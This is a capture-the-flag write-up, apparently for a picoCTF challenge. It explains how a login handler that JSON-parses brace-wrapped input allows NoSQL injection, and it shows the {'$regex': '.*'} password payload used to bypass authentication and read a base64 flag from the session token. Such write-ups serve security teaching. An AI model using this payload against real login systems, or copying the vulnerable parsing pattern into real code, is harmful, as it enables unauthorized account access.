


# No Sql Injection
Description: Can you try to get access to this website to get the flag?

1. **Initial Reconnaissance:**
After going through the website, it's just a simple login page. So, I started inspecting the source code.
    - `index.html`: From this file, I found that we can just simple path traversal to admin page but it contains no flag.
    - `admin.html`: This pafe contains just some text.
    - `app.js`: From this file, I found that flag is stored in session token, so we must have to find a way to login to access the token.
    and we know that the initial user  is
    ``` javascript
        const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
        });
    ``` 

2. **Identifying Vulnerabilities:**
From the `app.js` file, I found that it's vulnerable to NoSQL injection due to its login approach
```javascript
    const user = await User.findOne({
        email:
        email.startsWith("{") && email.endsWith("}")
            ? JSON.parse(email)
            : email,
        password:
        password.startsWith("{") && password.endsWith("}")
            ? JSON.parse(password)
            : password,
    });
```
If we input a JSON-like string, it will parse it and treat it as an query object. So, we can bypass the password by using
`{"$regex": ".*"}` as password.


3. **Exploitation:**
After login with credentials
```javascript
    email: "picoplayer355@picoctf.org",
    password: {"$regex": ".*"}
```
I was able to access the admin page. Then check session storage and found the flag in the session token in base64 format.


4. **Flag Retrieval:**
Decode it in cyberchef and you will get the flag.

